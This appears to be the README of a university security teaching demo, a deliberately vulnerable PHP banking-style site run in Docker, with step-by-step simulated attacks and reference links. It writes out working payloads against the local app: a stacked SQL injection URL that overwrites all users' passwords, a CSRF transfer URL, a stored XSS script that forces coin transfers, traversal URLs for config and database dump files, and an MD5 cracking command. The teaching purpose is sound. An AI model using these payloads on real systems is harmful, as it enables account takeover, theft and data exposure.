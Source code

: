# Base website security demo
- designed for students of [KIV/WEB](https://courseware.zcu.cz/portal/studium/courseware/kiv/web) of [University of West Bohemia](http://www.zcu.cz/en/)

## Presentation
[Slides from presentation](PRESENTATION.pdf)

## Development
### Installation
1. [Install Docker](https://docs.docker.com/install/)
1. [Install Docker Compose](https://docs.docker.com/compose/install/)
1. Clone this repository `git clone https://github.com/intraworlds/zcu-security-demo.git`
or download [ZIP file](https://github.com/intraworlds/zcu-security-demo/archive/master.zip)

### Run
1. run `docker-compose up` and you access the website
 - **app**: http://localhost:8088/
  - username: `willis.ritchie@example.com`
  - password: `richie`
 - **adminer**: http://localhost:8086/?server=mysql&username=admin&db=zcu_demo
  - password: `1234`

> Note: It'll take a minute to build docker container - be patient.

### Simulate attacks

#### SQL injection
- go to http://localhost:8088/?path=list&limit=50;update%20users%20set%20name=email,password=%27%242y%2410%24vXUP3XG34Nwezd8cEZm0XOLUN5jtDsF6tqpMg.PvFacpzKStHA2ze%27;
- notice added command `update users set name=email,password='$2y$10$vXUP3XG34Nwezd8cEZm0XOLUN5jtDsF6tqpMg.PvFacpzKStHA2ze'`
- refresh page
- observe that all users are named by its email and theirs password is `123`
- so now you can access any account and transfer a money

#### CSRF
- goto http://localhost:8088/?path=create&receiver=1&amount=1&desc=❤️&submit=create
- observe that 1 IW coin was transfered to user #1 without your consent

#### XSS (with CSRF)
- goto http://localhost:8088/?path=create
- create new transaction with following description
```html
❤️
<script>
fetch("/?path=create&receiver=1&amount=1&desc=❤️&submit=create");
</script>
```
- observe that now everybody who visits list of transactions will send a coin
to user #1 without consent

#### Directory traversal
try following URLs
- http://localhost:8088/docker-compose.yml
- http://localhost:8088/config/app.env
- http://localhost:8088/dumps/zcu_demo.sql

##### Defense
Adjust apache configuration
```
# denied all files
<RequireAll>
    Require all denied
</RequireAll>

# whitelist only *.php and other files
<FilesMatch "((^$)|(^.+\.(php|css|map|js)$))">
    Require all granted
</FilesMatch>
```


#### Weak hash algorithm
try use `hashcat`
```
php scripts/crack_md5_hash.php 75b71aa6842e450f12aca00fdf54c51d
```

### Docker tips
Show all running containers
```
docker-compose ps
```
See logs
```
docker-compose logs -f
```
Connect container
```
docker-compose exec apache bash -l
```

## attacks

- [Full list of attacks](https://www.owasp.org/index.php/Category:Attack)

### XSS (Cross-site Scripting)
 - [OWASP XSS](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))
 - [OWASP testing for XSS](https://www.owasp.org/index.php/Testing_for_Cross_site_scripting)
 - [PHP triky: Cross Site Scripting](https://php.vrana.cz/cross-site-scripting.php) (czech only)

### HTTP Headers
 - [X-XSS-Protection](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection)
 - [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)

### SQL injection
 - [OWASP SQL injection](https://www.owasp.org/index.php/SQL_Injection)
 - [Soom: SQL Injection (Full Paper)](https://www.soom.cz/clanky/1180--SQL-Injection-Full-Paper#sekce5) (czech only)
 - [PHP triky: Obrana proti SQL Injection](https://php.vrana.cz/obrana-proti-sql-injection.php) (czech only)

### CSFR (Cross-Site Request Forgery)
 - [OWASP CSFR](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF))
 - [Soom](https://www.soom.cz/clanky/484--Cross-Site-Request-Forgery) (czech only)
 - [PHP triky: Cross-Site Request Forgery](https://php.vrana.cz/cross-site-request-forgery.php) (czech only)
 - [Co je Cross-Site Request Forgery a jak se mu bránit](https://www.zdrojak.cz/clanky/co-je-cross-site-request-forgery-a-jak-se-branit/) (czech only)

### Path (Directory) Traversal
 - [OWASP Path Traversal](https://www.owasp.org/index.php/Path_Traversal)

### Others
 - [Self tweeting tweet](https://twitter.com/derGeruhn/status/476764918763749376)
